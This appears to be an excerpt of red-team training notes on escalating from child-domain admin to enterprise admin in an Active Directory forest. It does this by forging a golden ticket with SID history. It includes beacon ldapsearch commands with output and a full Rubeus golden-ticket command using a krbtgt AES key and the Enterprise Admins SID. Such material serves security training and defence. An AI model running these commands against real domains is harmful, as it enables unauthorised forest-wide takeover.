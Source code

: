 
When a new domain is added to an existing tree, a two-way transitive trust is automatically created between it (the child) and its parent domain.  It doesn't matter how far you go down - child.domain.com, grandchild.child.domain.com, or greatgrandchild.grandchild.child.domain.com - because these trusts are transitive, there is always an implicit two-way trust between all of these child domains, and the tree root (domain.com).

Querying the TDO shows a bidirectional trust with contoso.com.

```powershell
beacon> ldapsearch (objectClass=trustedDomain)

name: contoso.com
trustDirection: 3
trustAttributes: 32
flatName: CONTOSO
```

If an adversary is able to gain domain admin privileges in any child domain, they can elevate their privileges to that of enterprise admin in the forest.  This is achieved by forging a golden ticket with a special attributes called SID History, which was designed to support migration scenarios where a user would be moved from one domain to another.  To preserve access to resources in the 'old' domain, the user's previous SID would be added to the SID History of their new account.  When creating a ticket to abuse the trust relationship, the SID of a privileged group (e.g. enterprise admins) in the parent domain can be added to the ticket.

This ticket can be crafted entirely offline:

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /user:Administrator /domain:dublin.contoso.com /sid:S-1-5-21-690277740-3036021016-2883941857 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /nowrap
```

Where:

- `/aes256` is the AES hash of the child domain's krbtgt account.
    
- `/user` is the user you want to impersonate.
    
- `/domain` is the child domain.
    
- `/sid` is the SID of the child domain.
    
- `/sids` is a list of SIDs you want in the ticket's SID history.


> [!NOTE] Note
> You can get the parent's domain SID via LDAP by querying a domain controller within that domain.  Make sure to set the query base to that of the parent domain's distinguished name.
> ```powershell
>beacon> ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
>
> Binding to lon-dc-1.contoso.com
> [*] Distinguished name: DC=contoso,DC=com
[*] Filter: (objectClass=domain)
[*] Scope of search value: 1
[*] Returning specific attribute(s): objectSid
> --------------------
objectSid: S-1-5-21-3926355307-1661546229-813047887

